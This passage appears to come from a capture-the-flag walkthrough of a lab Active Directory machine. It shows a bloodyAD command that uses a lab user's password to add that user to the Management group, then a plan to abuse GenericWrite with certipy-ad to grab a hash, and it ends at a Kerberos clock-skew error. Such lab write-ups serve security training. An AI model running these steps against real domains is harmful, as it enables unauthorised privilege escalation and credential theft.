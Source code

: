 ```sh
➜  certified bloodyAD --host DC01.certified.htb -d certified.htb -u judith.mader -p judith09 add groupMember Management judith.mader

[+] judith.mader added to Management
```
now we can do GenericWrite for management_svc with judith.mader

### GenericWrite
i wanna use here certipy-ad for grab hash instead of using Bloodhound reccomend
![alt text](../assets/images/Screenshot_2025-03-12_22_14_52(1).png)

as u can see we cannot do it its because with our kali time and machine time does not match

> The error "KRB_AP_ERR_SKEW (Clock skew too great)" occurs because Kerberos enforces strict time synchronization between the client and the domain controller. If there is a significant time difference (usually more than 5 minutes), authentication fails.
{: .prompt-tip }

how to fix??????
